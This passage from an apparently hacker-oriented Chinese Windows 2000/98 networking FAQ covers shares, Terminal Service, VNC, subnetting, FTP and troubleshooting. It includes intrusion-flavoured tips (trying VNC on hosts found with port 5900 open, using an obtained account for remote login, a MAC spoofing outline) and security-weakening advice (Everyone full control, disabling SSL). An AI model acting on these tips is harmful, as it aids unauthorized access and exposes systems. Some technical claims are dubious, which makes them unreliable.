接下来，还没完，如何获得第二个路由器信息呢？当然是相同的手法，只不过在这里将 TTL 设置为 2，这样当数据包到达第二部路由器的时候被过滤，第一个路由器同样乖乖地返回信息，如此类推……就可以获得被 tracert 的 IP 和自己主机之间的所有路由器信息了。

## 一个网络中，有 win2k 和 win98 的主机，win2k 共享，但是 win98 不能访问？

哦，很不幸，即使微软不承认也不行，因为这确实是微软的一个 bug（不过微软好像曾经承认过，但是后来又否认了）。在一些官方或是专业的技术站点上的说法都难以得到统一，以下是我搜集到的几个比较常见的，而且容易成功的做法。如果都不行的话，还请万事节哀呀：

- 1. 确认双方都安装了 NETBEUI 协议，并且完成了 NETBIOS over TCP/IP（NBT）的绑定。
- 2. 在 win2k 的主机上开启 guest 账号。如果此法不通，那么在 win2k 主机上建立一个账号，账号的用户名和 win98 主机的主机名相同，密码随意设置，只要告诉 win98 客户机就可以了。这样，win98 访问 win2k 共享资源的话直接用该密码访问。
- 3. 如果第二种方法不行的话，试图将 win2k 和 win98 的计算机放在同一个工作组中。
- 4. 如果 win2k 的版本为 win2k svr 的话，可以试着将远程路由访问协议打开来看看。
- 5. 如果还不行呢？最后的办法：将你的 win2k 上的共享设为完全共享。如果磁盘为 NTFS 格式的话，设置权限的时候设置为 everyone 成员对该共享为 full control（完全控制）。

如果以上方法都不行，呵呵，应该是不可能吧。不通，检查网络吧。你会发现速度飞快哦。

## 我装的是 98 和 2K 的双系统（在同个盘中），每次上网连接前一定要重启一下，否则就连接不上，这是为什么啊？

很多问题都是发生在平时不注意的地方上。例如，在这里，将 win98 和 win2k 装在了同一个分区上。win98 和 win2k 如果安装在同一个分区中的话，会引起很多问题，而且有时候一些问题还是未知的、不可预料的。

例如：曾经我试过将两个系统安装在同一分区下，当时导致的情况是网络出现问题（机器处于一个局域网中），联网时通时断，而且 OE 出现问题，经常出现不能收信或是无法连接到服务器等等状况。所以，在这里建议将两个系统装在不同的分区中，这样就应该能解决问题了。

## 在装 win2000 时，发现很慢很慢！我是从 DOS 上装的，难道没办法解决吗？

在 DOS 下安装 win2k 的话，应该使用 win98 的启动光盘来启动系统，然后按以下步骤进行（在这里，建议光驱的盘符为 G）：

```bash
A:\>cd g:
G:\>cd windows
G:\windows>smartdrv
```

按以上步骤加载 smartdrv 这个程序。如果原来已经有 win98 的系统的话，也可以在 DOS 下转到 win98 所在的 windows 目录下使用 smartdrv 命令。加载成功后没有什么信息，只要不返回错误信息就算加载成功了。这时候再进行 win2k 的安装。

## 我的 win2k 总是提示虚拟内存不足，怎么解决？

虚拟内存就是在硬盘上开辟出来一部分空间来当作内存使用。但是，因为从磁盘存取的速度远远比不上从内存存取的速度，所以说虚拟内存并不能完全替代内存的工作。

但是，在运行一些大型的游戏或是应用程序的时候，由于会产生一些碎片，这些碎片主要还是存储在硬盘上的。正常情况下，虚拟内存默认为物理内存的 1.5 倍大小为合适。也就是说，如果有 128M 的内存的话，就要设置 192M 的虚拟内存。而且 1.5 倍也是微软推荐的大小，但是如果这还不能满足的话，也可以设置得更大。

方法是：右键“我的电脑”，选择属性，选择“高级”选项卡，然后依次点击“性能选项”和“更改”按钮。在这里就可以进行虚拟内存大小的设置了（图 9-38）。注意，进行设置的时候，最小值最好不要动，而是修改最大值，将最大值提高一些。


图 9-38

如果通过以上设置还不能解决问题的话，试着将所有临时文件都删除，并且整理磁盘碎片。这样的话，一般就都能解决问题了。另外，很多人是在看电影（一般是看 rm 格式的时候）才出现这种问题，这时候最好将使用的软件中的缓冲区设大一些。

## 如何给自己的网卡绑定多个 IP？绑定多个 IP 地址的作用是什么？

右键网上邻居，选择属性，右键本地连接，选择属性，然后选中 TCP/IP 并点“属性”按钮，然后再点“高级”按钮。在弹出的选项卡中，选择“IP 设置”选项卡，在这里通过点“添加”按钮就可以添加多个 IP 地址，只要输入正确的 IP 地址和子网掩码就可以了（图 9-39）。


至于为什么要绑定多个 IP 地址，对 win2k 来说，算是一个人性化设计（可我一点都没感觉出来）。在绑定了多个 IP 地址后，就方便了该主机存在于不同的网络中——再进入到另外一个网络的时候不用再次进行修改和设置了。

## 如何才能自动登录 win2k？就是不需要输入用户名和密码

只有 win2k 的 professional 版本才能自动登录到桌面。有两种方法，一般都使用 GUI 界面来进行修改。方法是：控制面板→用户和密码→去掉“要使用本机，用户必须输入用户名和密码”前面的钩（图 9-40），点击“应用”。


这时候会弹出对话框，键入想要自动登录的用户名和密码就可以了（图 9-41）。


## 用的是 2000 专业版，我想安装终端服务，服务器版里有，不知道是哪个文件，还有要是远程给对方主机安装终端服务怎么安装？

win2k pro 版本是不能安装 Terminal Service 服务的，而且 Terminal Service 服务不是用哪几个文件就可以安装完成的，因为它属于 windows 组件。

如果想要在 win2k svr 中安装 Terminal Service 的话，需要在控制面板的“添加/删除程序”中进行添加 windows 组件。远程安装终端服务在 win2k 的入侵问题部分已经讲过，不再重复。

## 我得到了一个账号（不是管理员），为什么不能使用终端登录？

默认情况下，Terminal Service 终端服务只允许管理员登录。如果你得到的并非管理员账号，而对方又使用缺省设置的话，肯定就有这样的结果了。

### 如何才能让非管理员组的用户登录 Terminal Service 终端？

打开你的管理工具，在里面找到“终端服务配置”这个工具。打开后，选“连接”一项，然后在右边窗口中右键“RDP-Tcp”，然后在这里选择属性（图 9-42）。


图 9-42

接下来，进入属性选项卡后，找到“权限”卡片，在这里就可以添加或是删除某个用户了，而且还可以针对某个用户进行访问权限的设置（图 9-43）。


图 9-43

### 我看到一些站点在 web 页面上就可以登录 3389 终端服务，那是怎么做的？

只要装一个软件（tswebsetup.exe），谁的机器上都可以做的。

在这里，我们需要安装 TSAC 这个工具包。TSAC（Terminal Services Advanced Client，终端服务高级客户端）是一个基于终端服务高级客户端 Win32 ActiveX 控件的 Web 组件和管理工具包，它允许在 IE 中运行与完整终端服务客户端一样功能的终端服务会话。

安装完成后，会自动创建目录 `C:\Inetpub\wwwroot\TSWeb`，在该目录下的 `default.htm` 就是 web 的终端了，只要双击它打开就可以了。当然，如果机器上装有 IIS 的话，还可以通过设置 IIS 来浏览该页面。打开后会发现和终端服务客户端有些相似（图 9-44）。


图 9-44

另外，还有一个 `manyservers.htm`，这是用来提供连接多个终端服务器的，最多可以连接四个。连接的时候输入对方的 IP 或主机名，然后点连接，这时候连接上一台主机；如果想再连接另外一台主机的时候，同样做法就可以了。以此类推，可以连接四台之多（图 9-45）。


图 9-45

简单就说这么多，如果还有什么不懂的话，可以读一下里面的 `readme.htm` 帮助文件。

## 有没有像 Terminal Service 一样的窗口界面的远程连接工具？

推荐一款工具 VNC，工具比较小巧。安装完成后，运行“Run WinVNC (App Mode)”就可以等待连接了。另外，也可以运行“Show User Settings”来显示并修改用户的配置情况（图 9-46）。


图 9-46

安装完成后，运行“Run VNCViewer (Listen Mode)”会在任务栏里出现图标，双击图标，这就是客户端连接器了（图 9-47）。使用方法就不用多说了，很简单。（如果想了解更多 VNC 的使用，请参看《黑客 X 档案》2003 年第四期 iceyes 的一篇关于 VNC 的文章。）


图 9-47

另外，如果没有安装 VNC 的话，也可以使用客户端的连接程序，在下载的 VNC 中会有提供。

> VNC 连接时使用的是 5900 端口，如果扫到有这个端口的机器的话，可以试一下哦。

## 为何一个子网掩码的第三段（即第 17 到 24 位）必须是 128、192、224、240、248、252、254？

子网掩码的排列是有规定的。子网掩码必须由连续的数字 1 和连续的数字 0 组成，不能出现数字 0 和 1 相互交叉的情况。

子网掩码又分为四段，每段 8 位。这样，第三段有可能排列（如果第三段中还可以取数字 1 的话，那么前两段必然为全 1 的情况）当然就是（二进制数）：

10000000、11000000、11100000、11110000、11111000、11111100、11111110、11111111

将这些数字都转换成十进制的话，分别为：128、192、224、240、248、252、254、255。

关于 IP 地址的划分，大家有不懂的地方希望能参阅相关图书，这里推荐《TCP/IP 详解：卷 1》。

## 正常启动计算机，怎么才可以不加载任何程序？

以正常模式启动的话，有一个简单的方法，就是当系统启动的时候按住 Ctrl 键不放，一直到系统启动完成。这样的话，一些程序（例如“开始->程序->启动”菜单中的程序）就不会随机启动了。

但是，注册表如下位置：

`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`

在这下面设置的随机启动程序，如果使用这种方法的话并不能跳过不加载。

## ping 的时候，“unable to resolve target system name www.xxx.com.cn”怎么回事呢？

这句话翻译过来的大概意思是：不能解析目标域名 `WWW.XXX.com.cn`。既然是这样的话，那么问题就应该是出在了 DNS 上，请检查是否正确配置 DNS 服务器。

另外一种情况是，如果是使用代理方式进行上网的话，使用 ping 命令就有可能收到这样的错误报告。

## 我 ping 一台主机，结果出现这个结果：“Reply from x.x.x.x: TTL expired in transit”，为什么？

`TTL expired in transit.` 这句话应该翻译为“TTL（生命周期）在传输过程中已过期”。

- 1. TTL 值过小，TTL 值小于你和对方主机之间经过的路由器数目，就会这样。
- 2. 路由器过多，经过的路由器数量大于对方的 TTL 值。

其实两个原因的道理是一样的。

## 建立 IPC 连接失败，返回一个错误代码为 2138，我该怎么做？

先使用 `net helpmsg` 来查看一下错误信息（图 9-48），可以看到信息是“工作站服务没有启动。”下面还提供了方法（使用 `NET START WORKSTATION` 来启动服务）。


其实，对于系统提供的这种方法，试都不用试。如果你的 workstation 服务真停止了，使用这个命令启动 workstation 服务就可以解决问题。

但是有时候，也许有朋友遇到过无法启动 workstation 的问题，这是因为服务需要初始化（也就是重新启动计算机）。遇到这种情况也没关系，来到“控制面板”→“服务”，找到“workstation 服务”，然后将启动类型设置为“自动”（图 9-49），然后重新启动计算机。当重启计算机完成的时候，该服务也将启动。


## 我机器上在 system32 下有一个 perfnet 文件，不知道是做什么的，它产生的进程占 CPU 利用率很高。

我看过了几台计算机都没有找到你说的这个文件，所以可见它并非系统关键文件或服务，可能是你自己安装的一些程序。

如果需要进一步了解该文件的话，可以使用 win2k 的 support tools 中的 `tlist` 这个工具，只要这样：`tlist programe_name(or pid)` 就可以查看该程序所在位置（图 9-50）、运行时候调用的文件等等信息。这样一来，通过观察，当然最重要的就是经验，这样就能做进一步判断。


图 9-50

## 我下载了 xscan，然后在运行里输入了命令，但是系统说没找到 scan，什么问题啊？

可以在“开始”->“运行”中通过输入就能直接运行的程序，都必须是系统在注册表中做过注册的才可以，并不是每个都可以。

在注册表中的位置是：

```text
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\AppPaths
```

到这个位置去看，就可以发现该主键下所有分支主键的名字，都是可以在“开始->运行”中直接运行的程序（图 9-51）。因此，你的命令 xscan 并没有在那里注册，是无法通过这种方式使用的。


图 9-51

## 请问，逻辑拓扑结构是怎么用？

逻辑拓扑结构与物理上的拓扑结构是一个不同的概念。逻辑拓扑结构注重的是在局域网内，用来更快速地定位某台机器，或是能使主机在传送信息的过程中通过最短的路径来到达目的地。

其实，这样感觉起来和虚电路差不多（只是在形式上来讲，但如果从传输介质或是网络性质上来讲就差很多了）。但是，逻辑拓扑只是一个临时的。也就是说，当机器打开的时候，某两台机器之间也许决定了一条线路；但是如果机器关闭的话，该条线路就随之消失。或者，也有可能随着另外一台机器的打开，这条电路也发生变化等等。

## win2k 开机的时候 Number Lock 灯总是关着的，我修改了 BIOS 也不行，怎么办？

这个是由于 win2k 的特性所决定的，是无法修改的。无论怎么样，win2k 开机的时候，不要说 Number Lock 灯，那一排灯都是关着的。

因为微软在 win2k 中加入了对笔记本电脑的支持，而对笔记本电脑来说，任何外部设备或一些不必要的东西（例如打开了 Number Lock 灯）都是对电池的浪费。所以系统为了做到最大限度地节约电源，就做成了这样。

win2k 除了不会打开键盘灯以外，每次启动都会检测软驱和光驱也是因为这个原因。因为很多笔记本电脑的光驱、软驱都是外置的，属于外部设备，所以 win2k 开机的时候才会进行检测，以检测外部设备是否准备就绪。

## win2k 的系统，每次开机都要检测软驱，有没有办法不让它检测啊？

到现在为止，没有什么好的办法。因为 win2k 为笔记本电脑而设计的特性，导致它每次开机必须检测软驱、光驱这类对笔记本来说属于外部设备的东西。

如果要想禁止它检测，只有将软驱禁止掉，这样在下一次使用的时候再启用。禁用的方法：右击“我的电脑”→“属性”→“硬件”→“设备管理器”，找到软盘驱动器，在它的“属性”对话框中设置为“禁用”就可以了。切记，下次使用的时候要启用啊。

## telnet 和 ftp 都是在 cmd 下执行，为什么在 telnet 或是 ftp 到对方后用的命令不一样？

这是一个看起来很可笑的问题。但是说实话，其中一些道理并不可笑，甚至我敢说有很多人都不知道其中的原理。我们很多人都认为，在 Windows 桌面下控制电脑就是要用鼠标点，在 cmd 命令行提示符下控制电脑就是要不断地输入命令等等……但是，却很少有人用 shell 这个概念来和这些东西结合在一起。

在桌面下，资源管理器就是一个 shell，这个 shell 的使用方法就是用鼠标来操作图形化界面；而在 cmd 下呢，cmd 本身也是一个 shell，操作这个 shell 的方法就是输入它所支持的那些命令。可以看出，不同的 shell 都有自己的命令；在 cmd 下就是那些命令行，而在资源管理器下，鼠标的移动和点击就是命令。像上面讲的那样，我们从操作系统原理的角度来看这个问题，好像就简单多了吧。

我们可以认为 telnet 和 ftp 是两个不同的 shell（telnet 是一个 shell 没错，但是严格地说，ftp 并不算是一个 shell，但为了说明方便，我们可以先这么认为），而这两个 shell 的操作方法不同（也就是所支持的命令不一样），所以连接后输入的命令当然不一样了。呵呵，明白了么？不知道大家是否有想过这样的问题？如果你真的想过的话，呵呵，那真是值得佩服哦。

## 为何在局域网中，打开 win2k 的时候，win98 就打不开网上邻居啊？

无论是 win98 还是 win2k，只要是网上邻居出现打不开的状况，排除网络硬件或是人为故障的话，那么问题就一定是出在“浏览主机”上了。

浏览主机是负责收集一个局域网内所有主机的主机名以及主机共享资源列表等信息的，然后每台主机会从浏览主机上获得该列表，返回到自己的网上邻居中，这样就是我们看到的网上邻居了。

浏览主机是通过所有在线主机竞选出来的，而且浏览主机会定时刷新以获得最新列表。然而，在 win2k 中有一个服务名为“Computer Browser”，该服务默认开启。如果一个网络内只有一台 win2k 主机，其他都为 98 系统，那么同时开机时，win2k 主机由于这个服务的原因，就会无条件当选浏览主机。

但是，如果 win2k 是在 win98 主机已经竞选完成浏览主机之后打开的话，问题就来了：win2k 的 Computer Browser 决定 win2k 要做浏览主机，而这个网络中又有了浏览主机……

主机，因此，他们之间会发生冲突。但是，这个冲突是可以解决的，解决办法就是重新竞争。这次的竞争过程将有 win2k 的主机参加，又由于竞争的过程为广播，所以速度很慢；如果主机再多的话，特慢啊……这样，短时间内就用不了网上邻居了（因为……浏览主机正在竞选中……）。

### 如果网络中发生了冲突

上述情况虽说要经过一段时间的竞争，但是到最后，当选浏览主机的还很有可能是 win2k 主机。在硬件配置没有过大差距的情况下，win2k 会依仗有自己的 Computer Browser 服务来当选浏览主机。

如果想解决问题的话，关掉 win2k 的 Computer Browser 服务就可以了。

## 在 winxp 中，怎么不能用 nbtstat -A ip？（对方是 win2k，我的是 XP）

已经讨论过关于 nbtstat 失败的原因了，其中关键的一点就是对方和本机都要安装 NETBEUI 协议才可以。不过很可惜，XP 默认是没有安装 NETBEUI 协议的。所以，使用这个命令的时候当然会失败。至于在 XP 中如何安装 NETBEUI 协议，在本部分前面已经讲过，不再重复了。

## 常见的代理有哪几种？有什么区别？

一般常见的代理类型有 Http、Ftp、Socks、Telnet 等代理服务器类型。Http、Ftp 和 Telnet 代理服务器顾名思义就是分别代理网页浏览、文件传输和远程登录。

而 Socks 是一种全能代理，像 http、ftp 这样的功能它都可以实现。Socks 代理又分为 Socks4 和 Socks5，Socks4 代理只支持 TCP 协议（传输控制协议），Socks5 代理支持 TCP 和 UDP 协议（用户数据报协议），还支持各种身份验证机制、服务器端域名解析等。Socks4 能干的 Socks5 都可以干，反过来就不行了。例如，大家都在用的 OICQ 就只能使用 socks5 代理了（因为 OICQ 采用 UDP 协议）。

## 发生 IP 冲突的话，哪台机器可以上网？

如果两台主机使用同一个 IP 地址，会收到 IP 有冲突的警告。这个时候，如果是在局域网内，哪台主机可以上网并不是固定的，而是随机的。即使一台主机先使用了该 IP 地址，另外一台后开机，也不能肯定谁一定会使用该 IP 上网。

这主要由局域网的特性决定。局域网中会定时检测主机是否还在线，但是这种检测是随机的，而不是按照特定顺序。也就是说，这次检测顺序也许为 A、B、C、D，那么第二次检测的顺序也许会为 B、A、C、D，或是别的顺序，都是不一定的。因此，如果 IP 冲突，唯一的解决办法就是其中一方修改 IP 地址。

## Temporary Internet Files 文件夹中都是什么用的？

在 win98 下，这个文件夹在 `c:\windows\Temporary Internet Files`。而 win2k 下直接找就不太好找了，教大家这样一个方法：打开 IE，选择“工具->Internet 选项”，在常规选项卡上有一个“Internet 临时文件”，在这里点“设置”按钮，在弹出的卡片中点“查看文件”，这样就看到了这个文件夹的内容了（图9-52）。

它在 win2k 中的位置是：

`C:\Documents and Settings\Administrator\Local Settings\Temporary Internet Files`

而且，不同用户在 `\Administrator\` 处会不同（这里是用户自己的文件夹名）。想知道里面是什么的话，打开这些文件查看就可以了。但是如果直接双击，会有警告，说是不安全，问你是否继续（图9-53）。

看来微软不喜欢让我们在这里打开这些文件。那么好说，选中想查看的文件，复制（copy）到其他位置，再打开，这样就可以了。细心观察你会发现，这些文件都是上网时浏览过的一些网站页面。现在知道了吧，这些就是浏览 web 时候留下的临时文件，我们通常查看的脱机文件等等都在这里。

> 很多朋友喜欢上网看 FLASH 小动画，但是却不会保存这些动画（很多人都热衷于看源代码的时候……）

> 找不到 FLASH 的路径吗？那么，如果你是在自己家里上网的话，就可以来找这个目录下那些以 swf 结尾的文件，只要有耐心，一定可以找到你在网上看过的 FLASH 动画。

在 IPv6 的环境下，当主机 A 移出了本地网络，然后主机 B 向原来的主机 A 的 IP 发送数据，首先主机 B 要发送类似 ARP 的报文，要求获得主机 A 的 MAC 地址。这时主机 C 承担了转发任务，它向主机 B 发送类似 ARP 的回复报文，告诉主机 B 主机 A 的“MAC 地址”（实际上是它自己的 MAC 地址）。

**我的问题是：**主机 C 在回复报文中，是不是要把 IPv6 报文中的源地址设置为主机 A 的地址，才能使主机 B 相信这是一个正确的 ARP 报文？

不要因为是 IPv6 就不知道该怎么办了。IPv6 再怎么先进，这些基础的传输过程还是与 IPv4 相同的。

首先，先把环境再叙述一遍（题目的说法有点怪异）：三台主机 A、B、C 在同一个局域网内，主机 A 由于某些原因没有连网或被移除。那么，当主机 B 要与主机 A 通信的时候，怎么办？

实际上就是这样的问题。这里就来讲述一下这种情况下会发生什么，过程是：

主机 A 由于某些原因不在线，而主机 B 在获得主机 A 的 MAC 地址的过程实际上是一个广播过程。因为三台主机的 MAC 缓存都是动态（dynamic）的，那么如果主机 A 不在，主机 C 同样也不可能知道主机 A 的 MAC。这样一来，主机 B 当然也不可能获得主机 A 的 MAC，所以主机 B 向主机 A 发送数据其实就失败了，不存在主机 C 的问题。

除了这样以外，再加深一点：如果我们加上一个网桥的话，不知道大家是否知道，网桥是工作在 OSI 模型第二层的。也就是说，它是基于 MAC 来进行通信的。网桥中会有一个桥接表，里面记录了主机与 MAC 的对应关系。还是上面的过程，主机 B 发起 MAC 广播要求主机 A 的 MAC 地址。如果这时网桥的桥接表已经通过更新得知主机 A 不在线了，会返回信息告诉主机 B：主机 A 不在，无法通信。这样通信失败。

如果这时候网桥的桥接表还没有及时更新，它就会按照表中记录的主机 A 的 MAC 来通知主机 B。这时候主机 B 就会向这个地址发送数据，以求开始通信。然而主机 A 不在线，所以这个过程显然是要失败的。这时候还没结束，主机 B 会很好心地告诉网桥 A 已经不在了，这样一来网桥中就没有了 A 的记录。

不知道大家是否搞清楚了这些通信过程。这些都是比较基本的。也许有人认为这些东西对成为一名 hacker 没什么用，那么我就在这个基础上再来个扩展。只要简单扩展一下，便可以形成一个高级的黑客技巧——MAC 欺骗。

还是上面叙述的环境，主机 B 要与主机 A 通信。通信前，B 检查本地的 ARP 缓存，如果没有找到 A，那么它就要发送 MAC 广播以获得 A 的 MAC 地址，然后获得 MAC 进行通信。好，可以看出通信基于 MAC。那么我们的入侵者主机 D，这时候伪造一个数据包，伪装成 A 发送给 B，其中 IP 地址是 A 的 IP，而 MAC 地址则是一个不存在的、自己虚构的地址。这样，在 B 检查缓存时，发现缓存中有了刚刚更新的 A 的 MAC 地址，B 就依照这个地址进行通信。结果是通信失败，造成主机 A、B 不通的假象，这就是最简单的 MAC 欺骗过程。

## 上网的时候用域名，例如 www.sohu.com 上不去，一定要用 IP 地址才可以上，why?

问题肯定是出在 DNS 上了。首先检查你的 DNS 是否进行设置。

如果是通过小猫拨号，右键“网上邻居”，选择属性，然后选择当前使用的那个拨号连接，右键选择属性，再选择“网络”卡片，选择 TCP/IP，并查看属性。在这里可以设置 DNS 地址（图9-54）。

当然，至于这里的地址写什么，就要询问你的 Internet 服务提供商（ISP）了。不过现在很多使用公共拨号的网络是不需要设置 DNS 地址的，而是可以自动发现，所以一定要问清楚才可以进行设置。

如果是在局域网中或 DSL 等通过网卡上网的话，右键“网上邻居”选择属性，在这里右键“本地连接”并选择属性，然后选择 TCP/IP 并查看其属性，在这里就可以进行 DNS 的设置了（图9-55）。

## 回收站无法使用，打开后显示“无法连接到您所请求的页”，查其属性为未知，请问咋办？

应该是系统相关文件损坏了。无论是使用 win2k 还是 win98 系统，都可以使用 sfc 来进行修复。

如果是 win98 的话，“开始”->“运行”，输入 `sfc`，按照提示进行扫描就可以了。

如果是 win2k：开始->运行，输入 `cmd`，然后在 cmd 命令提示符下输入相关命令，进行扫描并修复。中途可能会要求放入 win2k 光盘，只要放入正确版本的光盘就可以进行修复了。

```bash
sfc /scannow
```

## 我的 rar 文件的图标全都变成 windows 的图标了，而且打开的时候还需要选择打开方式，怎么改回来？

修改文件关联就可以了。到资源管理器中，依次选择“工具-文件夹选项-文件类型”，在这里找到 RAR 这个后缀名，选中后点“更改”按钮（图9-56），然后在列表中选择相应程序并确定即可；如果在列表里没有，则可以选择“其他”按钮来自己查找合适的程序。

## 端口是什么？

一个 IP 地址可以在 Internet 上标识一台计算机的位置，这是大家都知道的。但是，当一些特定数据送到计算机上之后，它还需要特定程序才能处理这些数据，处理成人们能看懂的数据，否则是无法使用并查看的。那么这些数据如何找到那些用来处理自己的程序呢？就是靠端口。端口在系统中抽象地标识了应用程序的位置，让那些数据能方便地查找到应用程序所在位置。

> 如何更准确地标识一个应用程序？在一台计算机中，一个应用程序可以通过端口被找到；但是我们现在面对的是整个 Internet，如何在 Internet 上确定一个程序的位置，这就引入了：套接字。一个套接字其实就是一个 IP 地址加一个端口号，这样就组成了一个套接字。这样，IP 标识主机，端口号标识应用程序，就可以在 Internet 上准确定位某台主机中的某个程序了。

## 有一台网吧主机配置成了 ftp 主机，扫描时没有发现它开了 21 端口，这是为什么呀？

FTP 服务器的端口是可以修改的。修改方法很简单，我们就以 IIS 中 FTP 服务器端口的修改方法为例：首先到管理工具中找到“Internet 服务管理器”，然后右键“默认 FTP 站点”，选择属性，在“FTP 站点”卡片上就可以看到 FTP 的端口，修改即可（图9-57）。

## 什么是 FTP 匿名登录啊？

FTP 的匿名登录就是指使用 `anonymous` 这个用户进行登录。如果是在命令行下，当需要输入用户名和密码的时候，只要输入：

- 用户名：`anonymous`
- 密码：任意一个邮件地址，例如：`python@abc.net`

这样就可以进行登录了。

如果是用 IE 的话，当出现登录对话框，或在 IE 中右键选择“登录”后，在对话框中勾选“login anonymously”这一项，点确定就可以了（图9-58）。

> 如果大家对 FTP 匿名登录的相关内容还不是很了解，尤其是初学者的话，可以去看一看 RFC 文档中的 RFC1635，这篇 RFC 文档是专门讲述 FTP 匿名登录的。

## 我登录 WIN XP 时不知道为什么还没有加载个人信息它就自动重新注销，why?

不光是 XP，就连 win2k 也可能会发生这种情况。先简单说一下 2K/XP 在启动完成后用户本地登录的过程。

首先选择用户（在 win2k 中就是输入用户名，而 XP 可以在登录界面上选择），这时候系统还不会对用户名进行检测，而是等待输入密码。当用户名和密码都输入完成后，系统到本机的 SAM 数据库中去对比，如果正确，则读取 SAM 中的个人配置信息并加载个人信息；如果错误，就禁止登录。

过程比较简单。注意这个过程主要分为两步：第一是检测账号和密码正确性，第二是读取个人配置信息。在这里，问题显然出在第二步。这样的话是无法正确登录的，所以只好使用安全模式启动系统。如果是 XP 的话，使用 administrator 进入系统；如果是 win2k 的话，使用其他管理员账号进入，然后在 cmd 下运行 `sfc /scannow` 进行修复。

如果嫌这样麻烦的话，直接用光盘启动并在安装过程中选择修复系统也是可以的。

## 广域网上可否使用 net send?

前面已经说过，`net send` 这个命令是基于 NETBIOS 端口的。协议发送和接收都完全依赖于 NETBIOS 端口。细心点会发现，在接收到信息后，显示的对方信息是对方机器名，而不是 IP 地址（图9-59）。这就可以说明发送过程仅靠 NETBIOS。

NETBIOS 又是依赖于 NETBEUI 协议的，而该协议是不可路由的。因此，在广域网上存在着无数台路由器，所以想用 `net send` 发送信息是不可能的，肯定会被屏蔽掉。

## 为什么我的 win2k 在关机菜单中没有“休眠”这一项？

控制面板中选择“电源选项”，然后选择“休眠”选项卡，在“启用休眠支持”前打上钩（图9-60）。

这时候再选择关机，会发现关机菜单中多了“休眠”这一项（图9-61）。

> **休眠的好处**：如果选择“休眠”，所有资料都将被存放在硬盘上，所以硬盘需要比较大的空间。但是计算机看上去就像关闭一样。而且启动时速度也会非常快，一般十几秒钟就可以进入 Windows 界面了。

## 请问怎么关 win2k 的 https 功能？

该说法不正确，不能说是 https 功能，而是要说 SSL。另外，SSL 的使用也不能说是在 win2k 系统下，而是在 IE 的功能中。

在 IE 中关闭 SSL 很简单，只要到 IE 的 Internet 选项的“高级”选项卡中，找到 SSL 2.0、SSL 3.0、TLS 1.0，并将它们前面的钩去掉（图9-62），然后点确定就可以了。

**注意**：TLS 是 SSL 的后继版本，最好一起禁用。而且如果禁用了 SSL，一些以 https 开头的 web 将不能浏览。例如网上交款的 web 页面，这些肯定要使用 SSL，如果禁止，必然将不能浏览其内容。

## 我想学习一下恶意代码是怎么编写的（不是想害人啦），所以我要浏览一些有恶意代码的站点，我该怎么做才能不被黑掉？

现在的一些防火墙好像可以屏蔽掉一些恶意代码，不过我强烈建议大家不要使用。用 IE 进行配置要比用那玩意安全得多，方法如下：

打开 IE，然后：

- 工具 → Internet 选项 → 安全卡片 → “自定义级别”按钮

在这里：

- 禁止 ActiveX
- 禁止 ActiveX 的下载
- 禁止 Java 脚本小程序的使用
- 把活动脚本也禁用掉（图9-63）

这样就消除了所有被代码“黑”的可能性了。接下来就安心浏览并查看恶意站点的源代码吧。

## 请问如何在 win2000 下运行 perl 程序？

perl 最早在 UNIX 上使用，但是现在也支持 windows。在 windows 上，perl 的解释器叫做 Active Perl，最新版本是：v5.6.0 built for MSWin32-x86-multi-thread。

安装过程很简单，安装完成后打开 cmd 命令提示符，在任意路径下输入命令 `perl -v` 来查看是否返回信息；如果返回信息则说明安装成功（图9-64）。

现在已经有越来越多在 LINUX/UNIX 上使用的语言和工具开始向 windows 上移植了，例如常见的 perl、python、php、Apache 等等……

## 如何将 perl 编写的 *.pl 文件编译成为 *.exe 文件？

perl 语言本身是一种解释型语言，而不是编译型语言，所以一般在机器上安装解释器是一个不错的选择。但是对于不学习 perl 语言的朋友，这是很不方便的。所以现在也有几款将 *.pl 文件编译成 *.exe 文件的工具。

主要是三款常见编译工具：

- PerlApp
- PerlSvc
- Perl2Exe

前两者由于是商业软件，需要花些银子，所以并不推荐。一般大家都使用 perl2exe。

大家可以在其官方网站下载：http://www.indigostar.com。最新版本为 7.00 版。

使用方法很简单：`perl2exe myscript.pl`（图9-65）。

编译好的 exe 文件只要在 cmd 命令行提示符下转到其所在目录，然后输入其文件名就可以运行了。

## 有没有办法将 perl2exe 编译出的 exe 文件编译成 pl 文件？

既然有 perl2exe，那就一定有 exe2perl。呵呵，现在确实已经有 exe2perl 这个东西了，它的用法也很简单：`EXE2PERL filename.ext`。

不过这个小东西比较难找，我在国外转了好久，才找到一个限制版本（图9-66）。

图 9-66

大家有兴趣的可以再去找找，应该还可以找到更好的、更新的版本吧，Good Luck！

### 如何破解 lmhosts.sam 文件？请指教！

为什么要破解 lmhosts.sam 文件呢。这个文件是不需要破解的，直接用记事本打开它就可以了（图 9-67）。

图 9-67

从文件中可以得到信息，知道这个文件是：This is a sample LMHOSTS file used by the Microsoft TCP/IP for Windows。呵呵，E 文，好好读读这个文件的东西，很有帮助的。

> 关于 LMHOSTS file：是使用在 Windows 网络中的、用来映射主机名和主机 IP 的一个文件；在使用了 WINS 的网络中也会涉及该文件。  
> 自己手动地编辑 LMHOSTS 文件不是人为……其主要作用确实是完成主机名和 IP 地址的映射。有关 LMHOSTS 的更多内容，希望大家可以到微软官方站点查阅资料。

### 介绍一下 FTP 的两种工作模式吧

FTP 有两种工作模式，第一种是 Standard（Active，主动方式），另外一种是 Passive（PASV，被动方式）。

这两种方式在与 FTP 服务器建立连接的时候都是一样的，那就是首先都是与 FTP 服务器的 TCP 端口 21 建立连接。这个端口是用来做身份验证和控制用的，因此，在这里就是一个验证的过程，当验证通过后，连接建立成功。接下来，传输数据的时候，两种模式将表现出不同，分别介绍一下：

### 主动方式

客户端会通过端口 21 发送请求，要求进行数据传输。这时候，客户端与服务端开始建立连接，连接建立后，服务端打开端口 20（这是 FTP 默认的数据传输端口）与客户端进行通信，传输数据。

### 被动方式

当客户端有数据要传送的话，不是由客户端先发起连接，而是等待服务端。服务端会在 1024 到 5000 之间打开一个随机端口，并且会通知客户端在这个端口上进行数据传输。可以看到，这种方式的最大好处就是不需要建立连接。而且，被动连接在那些有防火墙的网络中比较适用。

## win2k部分

### IPX 可以经过路由器吗？

可以的，因为 SPX/IPX 和 TCP/IP 协议栈一样，也是开放式协议，是可路由的。

### 现在我的域控制器是 NT 主机，客户机是 98，我全面升级到 win2k，过程是什么样的？

